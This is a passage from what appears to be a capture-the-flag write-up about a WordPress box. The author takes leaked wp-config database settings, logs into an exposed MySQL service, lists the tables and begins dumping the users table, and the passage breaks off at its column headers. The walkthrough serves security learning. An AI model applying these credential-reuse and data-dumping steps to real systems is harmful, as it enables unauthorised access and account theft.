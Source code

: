 ```jsx
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

# **Gaining ADMIN account**

After obtaining the database credentials, I attempted to log in to `MySQL`, as our scanning process revealed that it was open on port 3306. Upon logging in, I discovered the presence of a `~~REDACTED~~` database that contained usernames and databases.

```jsx
mysql -h 10.201.103.202 -u thedarktangent -p --ssl=0
```

```jsx
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpressdb2       |
+--------------------+
5 rows in set (0.338 sec)

MySQL [(none)]> use wordpressdb2;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [wordpressdb2]> show tables;
+--------------------------+
| Tables_in_wordpressdb2   |
+--------------------------+
| wptry_commentmeta        |
| wptry_comments           |
| wptry_links              |
| wptry_options            |
| wptry_postmeta           |
| wptry_posts              |
| wptry_term_relationships |
| wptry_term_taxonomy      |
| wptry_termmeta           |
| wptry_terms              |
| wptry_usermeta           |
| wptry_users              |
+--------------------------+
12 rows in set (0.335 sec)

MySQL [wordpressdb2]> select * from wptry_users;
+----+------------+------------------------------------+---------------+------------------------------+----------------------------------+---------------------+-----------------------------------------------+-------------+------------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url                         | user_registered     | user_activation_key                           | user_status | display_name     |
```